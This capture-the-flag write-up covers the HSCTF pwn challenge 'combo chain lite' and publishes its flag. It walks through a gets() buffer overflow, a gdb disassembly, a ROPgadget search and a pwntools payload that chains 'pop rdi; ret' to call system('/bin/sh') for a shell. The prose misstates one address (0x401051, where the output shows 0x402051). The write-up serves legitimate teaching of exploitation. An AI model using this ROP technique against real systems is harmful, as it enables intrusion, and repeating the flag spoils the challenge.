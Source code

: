 ## Problem info
<table>
  <tr>
    <td><strong>Name</strong></td>
    <td>combo chain lite</td>
  </tr>
  <tr>
    <td><strong>Category</strong></td>
    <td>Pwn</td>
  </tr>
  <tr>
    <td><strong>Flags</strong></td>
    <td>hsctf{wheeeeeee_that_was_fun}</td>
  </tr>
  <tr>
    <td><strong>Files</strong></td>
    <td>combo-chain-lite    combo-chain-lite.c </td>
  </tr>
  <tr>
    <td><strong>Tags</strong></td>
    <td></td>
  </tr>
  <tr>
    <td><strong>Hints</strong></td>
    <td>What's a ROP?</td>
  </tr>
</table>

#### Message
Written by: Ptomerty  

Training wheels!  

Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) | nc pwn.hsctf.com <port>  

## Solution

After reading the source code, we see that the program kindly provided us the system address and the string '/bin/sh'

```
void vuln() {
	char dest[8];
	printf("Here's your free computer: %p\n", system);
	printf("Dude you hear about that new game called /bin/sh");
	printf("? Enter the right combo for some COMBO CARNAGE!: ");
	gets(dest);
}
```

so it's my work to combind them together.

First by the length of dest, we could guess buffer-over-flow offset shall be 0x10.

Second, start gdb-peda to find where '/bin/sh' is. According to the source code it must be written in vuln:
```
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x0000000000401166 <+0>:     push   rbp
   0x0000000000401167 <+1>:     mov    rbp,rsp
   0x000000000040116a <+4>:     sub    rsp,0x10
   0x000000000040116e <+8>:     mov    rax,QWORD PTR [rip+0x2e6b]        # 0x403fe0
   0x0000000000401175 <+15>:    mov    rsi,rax
   0x0000000000401178 <+18>:    lea    rdi,[rip+0xe89]        # 0x402008
   0x000000000040117f <+25>:    mov    eax,0x0
   0x0000000000401184 <+30>:    call   0x401050 <printf@plt>
   0x0000000000401189 <+35>:    lea    rdi,[rip+0xe98]        # 0x402028
   0x0000000000401190 <+42>:    mov    eax,0x0
   0x0000000000401195 <+47>:    call   0x401050 <printf@plt>
   0x000000000040119a <+52>:    lea    rdi,[rip+0xebf]        # 0x402060
   0x00000000004011a1 <+59>:    mov    eax,0x0
   0x00000000004011a6 <+64>:    call   0x401050 <printf@plt>
   0x00000000004011ab <+69>:    lea    rax,[rbp-0x8]
   0x00000000004011af <+73>:    mov    rdi,rax
   0x00000000004011b2 <+76>:    mov    eax,0x0
   0x00000000004011b7 <+81>:    call   0x401060 <gets@plt>
   0x00000000004011bc <+86>:    nop
   0x00000000004011bd <+87>:    leave
   0x00000000004011be <+88>:    ret
End of assembler dump.
```

so it would be some where around 0x402028. Do some trying searching I found **"/bin/sh"** at **0x401051**

```
gdb-peda$ x/s 0x402028
0x402028:       "Dude you hear about that new game called /bin/sh"
gdb-peda$ x/s 0x402051
0x402051:       "/bin/sh"
```

Next, i would like a function (referencing [here](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)) to run `pop_rdi; ret;` to run system('/bin/sh'). Lets leave gdb and use ROPchain:

```
$ ROPgadget --binary combo-chain-lite | grep "pop rdi"
0x0000000000401273 : pop rdi ; ret
``` 

Finally, i got to store up the system address that program generously provided. Writing [payload.py](./payload.py)

```
r.recvuntil(': ')
q = r.recvline()
system  = int(q[:-1],16)
print(system)
```

That's every thing we need. Now construct the payload:

```
buf = 0x10
bin_sh = 0x0000000000402051
pop_rdi = 0x0000000000401273

payload = 'a'* buf 
rop = flat([pop_rdi,bin_sh,system])

payload+=rop
```
as what is written in [payload.py](./payload.py)
